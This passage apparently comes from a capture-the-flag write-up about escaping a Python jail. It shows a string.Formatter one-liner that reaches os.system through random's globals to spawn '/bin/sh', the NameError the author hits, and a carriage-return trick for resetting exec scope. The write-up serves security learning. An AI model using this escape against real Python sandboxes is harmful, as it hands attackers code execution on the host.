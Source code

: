 Hmm.. That's interesting. Let's try the one liner in our local interpreter:

```python
In [3]: class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: sup
   ...: er().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__i
   ...: nit__.__globals__[_os].system}", random)
---------------------------------------------------------------------------
NameError                                 Traceback (most recent call last)
Cell In[3], line 1
----> 1 class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: super().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__init__.__globals__[_os].system}", random)

Cell In[3], line 1, in Baz()
----> 1 class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: super().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__init__.__globals__[_os].system}", random)

NameError: name 'Baz' is not defined
```

Same error: `NameError: name 'Baz' is not defined`! Let's do some more investigation to why this happens:

![scoping.png](resources/scoping.png)

Aha! As we can see, the scoping changes because we are inside the `Baz` class. We will use a trick here to fool `exec` to reset the scope while still preserving `input()` open. With the character `\r` we can achieve exactly that. This is demonstrated below:

![neat-trick.png](resources/neat-trick.png)